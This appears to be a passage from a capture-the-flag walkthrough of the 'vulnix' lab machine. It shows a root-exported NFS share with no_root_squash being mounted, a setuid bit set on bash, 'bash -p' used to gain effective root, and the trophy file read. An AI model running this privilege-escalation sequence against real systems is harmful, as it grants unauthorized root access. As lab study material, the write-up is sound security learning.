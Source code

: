 # /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/vulnix	*(rw,no_root_squash)
/		*(rw,no_root_squash)

**

root@kali:/tmp# mkdir root
root@kali:/tmp# mount -t nfs 192.168.118.188:/ /tmp/root

root@kali:/tmp/root/bin# chmod 4777 bash


-bash-4.2$ id
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)


Hmm, thought I would be root on login.  Hello Google my old friend, what can you tell me?

-bash-4.2$ bash -p
bash-4.2# id
uid=2008(vulnix) gid=2008(vulnix) euid=0(root) groups=0(root),2008(vulnix)
bash-4.2# cd /root
bash-4.2# ls -la
total 28
drwx------  3 root root 4096 Sep  2  2012 .
drwxr-xr-x 22 root root 4096 Sep  2  2012 ..
-rw-------  1 root root    0 Sep  2  2012 .bash_history
-rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
drwx------  2 root root 4096 Sep  2  2012 .cache
-rw-r--r--  1 root root  140 Apr 19  2012 .profile
-r--------  1 root root   33 Sep  2  2012 trophy.txt
-rw-------  1 root root  710 Sep  2  2012 .viminfo
bash-4.2# cat  trophy.txt
cc614640424f5bd60ce5d5264899c3be
bash-4.2#
